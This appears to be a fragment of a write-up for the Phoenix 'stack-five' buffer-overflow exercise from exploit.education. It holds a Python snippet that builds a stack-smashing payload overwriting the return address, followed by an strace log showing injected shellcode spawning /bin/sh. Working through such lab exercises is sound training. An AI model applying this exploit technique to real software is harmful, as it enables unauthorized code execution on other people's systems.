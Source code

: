 ```python
stack_smash = 'A' * (RETURN_ADDRESS - BUFFER_ADDRESS - BUFFER_SIZE) + p64(BUFFER_ADDRESS)

with open('exploit.bin', 'wb') as f:
    f.write(buffer_smash + stack_smash + '\n' + COMMAND)
```
```console
user@phoenix-amd64:~$ strace /opt/phoenix/amd64/stack-five < exploit.bin
execve("/opt/phoenix/amd64/stack-five", ["/opt/phoenix/amd64/stack-five"], [/* 18 vars */]) = 0
arch_prctl(ARCH_SET_FS, 0x7ffff7ffdbc8) = 0
set_tid_address(0x7ffff7ffdc08)         = 1087
mprotect(0x7ffff7ffa000, 4096, PROT_READ) = 0
ioctl(1, TIOCGWINSZ, {ws_row=62, ws_col=116, ws_xpixel=0, ws_ypixel=0}) = 0
writev(1, [{iov_base="Welcome to phoenix/stack-five, b"..., iov_len=74}, {iov_base="\n", iov_len=1}], 2Welcome to phoenix/stack-five, brought to you by https://exploit.education
) = 75
read(0, "UH\211\345H\203\354\20H\277/bin/sh\0H\211|$\370H\215|$\370\276\0\0\0"..., 1024) = 160
execve("/bin/sh", NULL, NULL)           = 0
brk(NULL)                               = 0x555555773000
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
openat(AT_FDCWD, "/etc/ld.so.cache", O_RDONLY|O_CLOEXEC) = 3
fstat(3, {st_mode=S_IFREG|0644, st_size=23717, ...}) = 0
mmap(NULL, 23717, PROT_READ, MAP_PRIVATE, 3, 0) = 0x7ffff7fc8000
close(3)                                = 0
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libc.so.6", O_RDONLY|O_CLOEXEC) = 3
read(3, "\177ELF\2\1\1\3\0\0\0\0\0\0\0\0\3\0>\0\1\0\0\0@n\2\0\0\0\0\0"..., 832) = 832
fstat(3, {st_mode=S_IFREG|0755, st_size=1839792, ...}) = 0
mmap(NULL, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0x7ffff7fc6000
mmap(NULL, 1852680, PROT_READ, MAP_PRIVATE|MAP_DENYWRITE, 3, 0) = 0x7ffff7e01000
mprotect(0x7ffff7e26000, 1662976, PROT_NONE) = 0
mmap(0x7ffff7e26000, 1355776, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x25000) = 0x7ffff7e26000
mmap(0x7ffff7f71000, 303104, PROT_READ, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x170000) = 0x7ffff7f71000
mmap(0x7ffff7fbc000, 24576, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x1ba000) = 0x7ffff7fbc000
mmap(0x7ffff7fc2000, 13576, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_ANONYMOUS, -1, 0) = 0x7ffff7fc2000
close(3)                                = 0
arch_prctl(ARCH_SET_FS, 0x7ffff7fc7580) = 0
mprotect(0x7ffff7fbc000, 12288, PROT_READ) = 0
mprotect(0x55555576e000, 8192, PROT_READ) = 0
mprotect(0x7ffff7ffc000, 4096, PROT_READ) = 0
munmap(0x7ffff7fc8000, 23717)           = 0
getpid()                                = 1087
rt_sigaction(SIGCHLD, {sa_handler=0x555555564ef0, sa_mask=~[RTMIN RT_1], sa_flags=SA_RESTORER, sa_restorer=0x7ffff7e3cd60}, NULL, 8) = 0
geteuid()                               = 1000
brk(NULL)                               = 0x555555773000
brk(0x555555794000)                     = 0x555555794000
getppid()                               = 1085
getcwd("/home/user", 4096)              = 11
ioctl(0, TCGETS, 0x7fffffffebc0)        = -1 ENOTTY (Inappropriate ioctl for device)
rt_sigaction(SIGINT, NULL, {sa_handler=SIG_DFL, sa_mask=[], sa_flags=0}, 8) = 0
rt_sigaction(SIGINT, {sa_handler=SIG_DFL, sa_mask=~[RTMIN RT_1], sa_flags=SA_RESTORER, sa_restorer=0x7ffff7e3cd60}, NULL, 8) = 0
rt_sigaction(SIGQUIT, NULL, {sa_handler=SIG_DFL, sa_mask=[], sa_flags=0}, 8) = 0
rt_sigaction(SIGQUIT, {sa_handler=SIG_DFL, sa_mask=~[RTMIN RT_1], sa_flags=SA_RESTORER, sa_restorer=0x7ffff7e3cd60}, NULL, 8) = 0
rt_sigaction(SIGTERM, NULL, {sa_handler=SIG_DFL, sa_mask=[], sa_flags=0}, 8) = 0
rt_sigaction(SIGTERM, {sa_handler=SIG_DFL, sa_mask=~[RTMIN RT_1], sa_flags=SA_RESTORER, sa_restorer=0x7ffff7e3cd60}, NULL, 8) = 0
read(0, "", 8192)                       = 0
exit_group(0)                           = ?
```